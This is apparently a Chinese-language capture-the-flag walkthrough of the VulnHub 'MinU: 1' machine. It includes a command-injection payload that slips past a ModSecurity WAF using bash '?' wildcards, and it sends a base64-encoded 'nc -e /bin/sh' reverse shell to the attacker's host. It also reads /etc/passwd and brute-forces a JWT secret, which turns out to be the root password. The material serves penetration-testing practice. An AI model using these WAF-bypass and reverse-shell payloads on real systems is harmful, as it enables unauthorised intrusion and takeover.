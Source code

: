 # MinU: 1

2024-4-27 https://www.vulnhub.com/entry/minu-1,235/

difficulty: easy/intermediate

vitrualbox open

## IP

192.168.5.13

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.27
```

只开放了一个 web 80 端口，直接开始访问主页，是一个 apache 的默认页面，没什么信息。

进行目录扫描，发现全部返回的 403。使用 nikto 进行扫描，发现 test.php 页面，继续进行访问发现：http://192.168.5.13/test.php?file=last.html 这个 file 参数可能存在文件包含漏洞，file=/var/log/wtmp 可以访问，但是/etc/passwd 又什么内容都没有，好像页面中有某种过滤，可能存在 WAF，wafw00f http://192.168.5.13/test.php ，根据返回结果，提示可能存在 WAF。

模糊测试下，能通过哪些绕过方法：

```
wfuzz -c --hc 403 -z file,/usr/share/wfuzz/wordlist/Injections/All_attack.txt http://192.168.5.13/test.php?file=FUZZ
```

看到 |dir 显示状态码 200，进行命令拼接：http://192.168.5.13/test.php?file=last.html|pwd 页面上显示了当前路径 /var/www/html ，说明能够进行命令执行。

继续尝试拼接其他命令，发现有些命令执行不了，应该是被 WAF 拦截了。

http://192.168.5.13/test.php?file=--version 后得到了 cat 的版本 (GNU coreutils) 8.26，猜测 web 代码可能是 `exec("cat ".'$_GET['file'])`，所以为了能执行反弹 shell，必须对攻击代码进行处理才能绕过 WAF。

在查询了相关资料后，发现这个 WAF 是 ModSecurity，所以直接寻找绕过这个 WAF 的相关方法。

发现了 2 个有用账户：

```
curl "http://192.168.5.13/test.php?file=/etc/pass\[w\]d"

root:x:0:0:root:/root:/bin/bash
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
```

经过不断尝试后，找到了一种可以绕过 WAF 执行 RCE 的方法：

```
nc -e /bin/sh 192.168.5.10 333  --base64--> bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjUuMTAgMzMz  编码中不要带=号，否则会跟url中=号冲突

curl 'http://192.168.5.13/test.php?file=%26/bin/ech?%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjUuMTAgMzMz|/u?r/b?n/b?se64%20-d|/b?n/sh'
```

在 kali 上监听 333 端口，得到了反弹的 shell，先升级 tty，目标机器上没有 python，使用其他方式升级：script -qc /bin/bash /dev/null

先看看内核版本，是否能有可利用的内核漏洞：

```
uname -a
Linux MinU 4.13.0-39-generic #44-Ubuntu SMP Thu Apr 5 14:21:12 UTC 2018 i686 i686 i686 GNU/Linux
```

但是目标系统中没有 gcc 编译器，暂时不考虑这个攻击方向。

在 /home/bob 目录下发现了 `._pw_` 文件，像是 passwd 的缩写：

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```

看内容像是 JWT，尝试去解码看看什么内容：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```

但是我们没有相应的密钥，尝试能否对此 JWT 进行爆破，找到密钥，有可能密钥就是 bob 的用户密码。

```
git clone https://github.com/brendan-rius/c-jwt-cracker
sudo apt-get install libssl-dev
cd c-jwt-cracker
make
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```

最终得到密钥：mlnV1。尝试切换到 bob，认证失败；尝试切换到 root，切换成功。

```
root@MinU:~# cat flag.txt cat flag.txt
cat flag.txt
  __  __ _       _    _      __
 |  \/  (_)     | |  | |    /_ |
 | \  / |_ _ __ | |  | |_   _| |
 | |\/| | | '_ \| |  | \ \ / / |
 | |  | | | | | | |__| |\ V /| |
 |_|  |_|_|_| |_|\____/  \_/ |_|


# You got r00t!

flag{c89031ac1b40954bb9a0589adcb6d174}

# You probably know this by now but the webserver on this challenge is
# protected by mod_security and the owasp crs 3.0 project on paranoia level 3.
# The webpage is so poorly coded that even this configuration can be bypassed
# by using the bash wildcard ? that allows mod_security to let the command through.
# At least that is how the challenge was designed ;)
# Let me know if you got here using another method!

# contact@8bitsec.io
# @_8bitsec
```
